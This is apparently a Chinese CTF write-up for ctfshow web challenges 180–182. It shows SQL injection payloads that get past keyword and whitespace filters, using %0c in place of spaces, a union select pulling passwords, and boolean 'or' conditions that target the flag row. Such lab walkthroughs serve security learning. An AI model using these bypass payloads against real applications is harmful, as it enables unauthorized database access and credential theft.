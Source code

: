 先把上一题的payload放上，显然不对，发现不管输什么都不行，那就只能是一个固定的东西，那么我们就把目光集中一下，注释的问题，尝试--+，#，%23均不对，

那就做一些手脚吧，针对--+，首先要知道--+中的+代表的是空格的意思，那就可以使用%0c去代替+，发现可行，直接构造payload

```
-1'%0cunion%0cselect%0c1,2,password%0cfrom%0cctfshow_user%0c--%0c
```

### web181

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

显然空格代替均无，且select也无，那就不能进行select注入，看看别人怎么做的

```
知识点：or运算，两边分开运算，若前面无效则只执行后面的
```

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

那就看后半句

```
username !='flag' and id = '-1'or(username='flag')and'a'='a '
```

id=’-1‘显然不成立，所以只会执行后面的，即

```
(username='flag')---(真正的语句)and'a'='a'--（注释符不可用，所以用此来闭合后单引号）
```

ok，最终payload就是

```
-1'or(username='flag')and'a'='a
```

### web182

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

ok，flag也被过滤了，但是根据之前的经验，flag对应的id为26

```
-1'or(id=26)and'a'='a
```
